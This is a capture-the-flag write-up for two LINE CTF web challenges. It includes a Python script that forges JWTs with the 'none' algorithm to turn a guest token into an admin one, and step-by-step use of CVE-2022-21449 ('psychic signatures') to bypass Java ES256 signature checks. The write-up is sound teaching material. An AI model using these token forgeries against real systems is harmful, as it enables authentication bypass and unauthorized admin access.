 # Web

## jalyboy-baby


### Info

![](screenshots/1.png)

![](screenshots/4.png)

## solution:

First this when we click in login as guest we can see that a jwt is generated in a url param:


![](screenshots/2.png)



So first i tried to crack the secret key but it didnt work so i tried none algorithm attack using this python script:

```python
import jwt



given_token = 'eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.uHMs3WJcQ4kxWlcKpN0kcsQFx0tau9TW56GSBzt4AkOpW2pud0tNKRJUnq_tzjj3kYQcUFLiSv396qxatqvTkg'



try:

    decoded_token = jwt.decode(given_token, options={"verify_signature":False})
    print("Decoded Token:", decoded_token)


    decoded_token['sub'] = 'admin'


    # Encode the modified payload
    encoded_token = jwt.encode(decoded_token, None , algorithm=None)
    print("Encoded Token after modification:", encoded_token)

except jwt.ExpiredSignatureError:
    print("Token has expired.")
except jwt.InvalidTokenError:
    print("Invalid token.")
```

it gived me:

```bash
Decoded Token: {'sub': 'guest'}
Encoded Token after modification: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9.
                                                    
```
when i pass it to the parameter :

![](screenshots/3.png)


the flag:
`LINECTF{337e737f9f2594a02c5c752373212ef7}`




### jalyboy-jalygirl:

this challenge had a really easy solution but i spent 2 hours to find it 


![](screenshots/6.png)
![](screenshots/5.png)


same thing when we try to login as guest we get a jwt in url,
after reading the source code the only diffrence from the first chall was this line
`KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);`

the web app uses eliptic curve to generate pair public keys, so i thought bout confusion attack and tried many ways to get the public key like using openssl 

##solution:

but i when i read the description again i felt like the problem is exactly in java and ES256's (eliptic curve) imlepmentation
so i searched deeply  till i found that there is a cve` CVE-2022-21449, known as “psychic signatures”`
basically tampering the body and then replacing the signature with the following value: `MAYCAQACAQA` will bypass the signature verification

so lets say we had this token :`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.HVaXPG5K69128-N-nmjB-tw3KxrABuGUbwcM0ukctAfMXhHqwkxoZ_cfBOoDquRTrH_g8qTlitX49TYjQIejzQ`

1- first thing is to delete the signature part so it would be :`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9`

2- second step is to modify the payload from `{"sub":"guest"}` to `{"sub":"admin"}` so the jwt will look like:
`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9`

3-last step is adding the value:
`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA`

passing this thru the paramter will give us the flag:

![](screenshots/7.png)

the flag:
`LINECTF{abaa4d1cb9870fd25776a81bbd278932}`



